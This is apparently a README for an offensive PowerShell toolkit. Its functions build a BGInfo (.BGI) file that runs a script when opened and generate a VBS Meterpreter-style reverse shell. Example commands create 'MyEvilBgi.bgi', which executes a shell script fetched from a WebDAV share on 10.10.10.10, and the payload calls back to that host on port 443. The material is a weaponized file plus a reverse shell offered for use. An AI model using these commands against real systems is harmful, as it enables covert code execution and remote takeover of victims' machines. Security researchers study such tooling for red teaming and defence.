 # BGInfo
2 Functions used to create a .BGI file executing script.
Thanks to Cn33liz - @Cneelis for VBSWebMeter.

How to use the functions:

## Example ##
This example will generate a file called MyEvilBgi.bgi and VBSMeterShell.vbs inside the c:\BGIPayload folder. The BGI file will try to execute \\10.10.10.10\webdav\VBSMeterShell.vbs when opened. 

New-BGIFile -FileName "MyEvilBgi.bgi" -Script "\\10.10.10.10\webdav\VBSMeterShell.vbs" -OutFilePath "C:\BGIPayload"

New-VBSWebMeter -RHOST "10.10.10.10" -RPORT "443" -HTTPS "Yes" -OutFilePath "C:\BGIPayload" -OutFile "VBSMeterShell.vbs"
